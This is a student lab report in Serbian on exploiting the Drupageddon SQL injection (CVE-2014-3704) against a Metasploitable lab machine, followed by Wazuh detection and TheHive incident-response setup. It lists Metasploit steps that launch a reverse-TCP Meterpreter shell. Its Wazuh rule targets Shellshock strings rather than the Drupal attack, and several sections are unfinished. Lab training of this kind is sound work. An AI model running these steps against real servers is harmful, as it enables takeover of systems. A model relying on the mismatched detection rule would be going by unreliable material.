






# Eksploatacija ranjivosti, detekcija, i Incident Response izveštaj

### Име и презиме: Христина Адамовић R2 20/2024
### Датум: 1.12.2024. - 8.12.2024.

---

## Преглед рањивости

### 1.1 Информације о рањивости

- ID рањивости (CVE): CVE-2014-3704 
- Погођен сервис: Drupal Core
- CVSS оцена: 7.5 (висока)
- Опис рањивости: Друпал верзије 7.x (прије 7.32) погођен је рањивошћу SQL инјекције. Функција `expandArguments` у API-ју за апстракцију базе података 
не конструише исправно припремљене изразе, јер не провјерава податке добијене од корисника. To омогућава удаљеним нападачима да изведу нападе SQL инјекције путем низа који садржи специјално креиране кључеве. Рањивост је позната и под називом `Drupageddon`.

### 1.2 Опис експлоита

**Извор експлоита:**

Назив експлоита: Drupal HTTP Parameter Key/Value SQL Injection

Линк до експлоита: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/drupal_drupageddon.rb

**Метод експлоатације:**

Постоје два метода екслоатације који се односе на начин на који ће PHP payload бити активиран. Кориштен је други метод који се заснива на креирању корисникове објаве.
Упућује се post захтјев ка друпаловој логин страници, што ће креирати новог корисника у табели корисника. Након тога се додатом кориснику додјељује администраторска улога. Администраторима се даје право да уметну PHP код у своје објаве. Новокреирани администратор креира нову објаву која садржи payload, те приказивањем те објаве ће се активирати извршење payload-а. Одабрани payload омогућава remote shell (метапретер сесију) на рањивој машини.

---

## Процес експлоатације

### 2.1 Подешавање експлоита

**Рањив циљ:**

- Metasploitable 3 Ubuntu
- Drupal Core 7.x (прије 7.32)
- Apache 2.4.7 који ради на порту 80

**Алати за експлоатацију:**

Metasploit Framework

### 2.2 Кораци експлоатације

1. Покрећемо Metasploit Framework: `msfconsole.bat`
2. Тражимо експлоит за Друпал: `search Drupal`
3. Од понуђених, бирамо онај са индексом 18, командом `use 18`, јер он представља претходно описани метод. Аутоматски се одабере стандардни payload `php/meterpreter/reverse_tcp` који врши креирање метапретер сесије 
4. Подесимо адресу рањиве машине: `set RHOST 192.168.0.102`
5. Подесимо локацију ресурса који се напада (URI): `set TARGETURI /drupal/`
6. Покренемо експлоит `exploit`





### 2.3 Резултат експлоатације

Креиран је нови корисник са приказаним креденцијалима који има администраторску улогу. 
Отворена је метапретер сесија.



## Детекција коришћењем Wazuh SIEM-а

### 3.1 Wazuh SIEM правила ТОДО

**Правила кориштена за детекцију:**

У `/var/ossec/etc/rules/local_rules.xml` је додато сљедеће правило:

```xml
<group name="shellshockgroup">
    <rule id="100002" level="10">
        <description>Shellshock attack</description>
        <field>.*\(\)\s*{\s*:;.*|.*bin/bash.*</field>
        <options>no_full_log</options>
        <mitre>
            <id>T1203</id>
        </mitre>
    </rule>
</group>
```

- ID je `100002` а Mitre ID je T1203
- Level је `10`
- Опис правила: Тражи се регекс за `() { :; };`. Ако је он игде пронађен, покренуће се alert за задато правило. Не желимо да цео алерт иде у лог и зато је постављено `no_full_log`.

### 3.2 Конфигурација SIEM-а

**Подешавање Wazuh агента:**

Вазух менаджер, заједно са вазух индексером и дешбордом, инсталиран је преко асистента из званичне документације идућом командом:
```sh
curl -sO https://packages.wazuh.com/4.9/wazuh-install.sh && sudo bash ./wazuh-install.sh -a
```
У оквиру вазух дешборда кликом на дугме `Deploy new agent` прикажу нам се команде које је потребно унијети за инсталацију агента на рањивој машини (oдабрана је опција DEB amd64):

```sh
wget https://packages.wazuh.com/4.x/apt/pool/main/w/wazuh-agent/wazuh-agent_4.9.2-1_amd64.deb && sudo WAZUH_MANAGER='172.21.34.178' WAZUH_AGENT_NAME='Test2' dpkg -i ./wazuh-agent_4.9.2-1_amd64.deb
```

На крају покрећемо агента: 

```sh
sudo /var/ossec/bin/wazuh-control start
```

**Прикупљање логова:**

Логови се налазе у `/var/log/apache2/access.log`. У конфигурационом фајлу `ossec.conf` се поставља путања до тих логова, уколико она већ није ту.

```xml
<localfile>
  <location>/var/log/apache2<FILE_PATH>/access.log</location>
  <log_format>syslog</log_format>
</localfile>
```

### 3.3 Процес детекције ТОДО

Када се уради покушај напада, у веб апликацији се испише лог. 



---

## Incident Reponse са The Hive-ом

### 4.1 Подешавање интеграције

**Опис интеграције:**

Праћен је туторијал са идућег линка: https://wazuh.com/blog/using-wazuh-and-thehive-for-threat-protection-and-incident-response/

Креиране су пајтон скрипта под називом `custom-w2thive` и истоимена беш скрипта за извршавање пајтон скрипте, обје на путањи `/var/ossec/integrations/`. Пајтон скрипта за сваки алерт из вазух *json* фајла, уколико је тај алерт изнад подешеног прага нивоа правила, креира пост захтјев којим шаље податке о насталом алерту ка Тhe Hive-у. 

Вазуху је потребно додијелити одговарајуће пермисије да би могао приступити наведеним фајловима:

```sh
sudo chmod 755 /var/ossec/integrations/custom-w2thive.py
sudo chmod 755 /var/ossec/integrations/custom-w2thive
sudo chown root:ossec /var/ossec/integrations/custom-w2thive.py
sudo chown root:ossec /var/ossec/integrations/custom-w2thive
```

Да би комуникација са Тhe Hive-ом била омогућена, у конфигурациони фајл вазуха мора се додати секција за интеграцију са The Hive-ом:



Након измјене конфигурационог фајла, потребно је рестартовати вазух менаджер:

```sh
sudo systemctl restart wazuh-manager
```

**Интеграција правила:**

Правило приказано у одјељку 3.1 креираће алерт у оквиру вазуха ако детектује напад, након чега се извршава беш скрипта `custom-w2thive` која прослијеђује параметре пајтон скрипти да би користила податке из алерта и послала их Тhe Hive-у.



### 4.2 Креирање случаја у The Hive-у ТОДО слике

**Детаљи о случају:**

